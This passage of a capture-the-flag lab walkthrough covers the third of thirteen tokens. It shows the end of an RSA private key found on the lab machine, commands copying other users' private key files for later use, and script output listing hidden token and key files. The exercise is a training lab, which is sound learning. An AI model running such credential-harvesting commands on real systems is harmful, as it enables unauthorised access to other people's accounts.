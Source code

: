 ```console
hifVV6GfpMefNaZ55MadJ66SMHl99STCWLRZZ89xR50wpNNL9a3RhmbQ4vviLet6
CfywnZ4U3dGBwvm8eGhkYlHeGO0/rkzTPXSDJ+s22Nh5pVV5PHXnnkojyWUfCIKk
V5f7AoGBANsLGPBhn1J6QwbnNEFfjSaTL2nOlB7iPbHrYKJGD9eJ9IUrI4woX2eb
s732ZAAXmdD3cTg+7biIh0hEADNVfXETfX62i1NMkejIQKIcexXGMor/eSlDXSXZ
6UtA5CE4sH4lqKdenEgiGHs6yZbLC7XC6KIIlhw2xi6OZtKM4Efy
-----END RSA PRIVATE KEY-----
```

Ohh this is juicy! We got a [Private SSH Key](https://rietta.com/blog/2012/01/27/openssl-generating-rsa-key-from-command/)!

We might need these for future exploitation purposes, so we need to save them!

```console
e.lindsey@tl10-ssh:/var/tmp$ cat /data/users/a.modlin/docs/key > a.modlin.key
e.lindsey@tl10-ssh:/var/tmp$ cat /data/users/rross/docs/keys > rross.key
```

## Finding the SSH Token:

From our script, we see that rross had the key file hidden away in his directory!

```console
/data/users/rross/
 [+] Directory Found /data/users/rross/docs
 [+] File Found /data/users/rross/docs/token.txt
 [+] File Found /data/users/rross/docs/keys
 [+] Directory Found /data/users/rross/tmp
```

So let's just [cat](http://www.linfo.org/cat.html) that, and we will have compromised the SSH Token!

## Token (3/13):

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the GW Machine via SSH to get the token!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (4/13) - The SSH-Test Token!
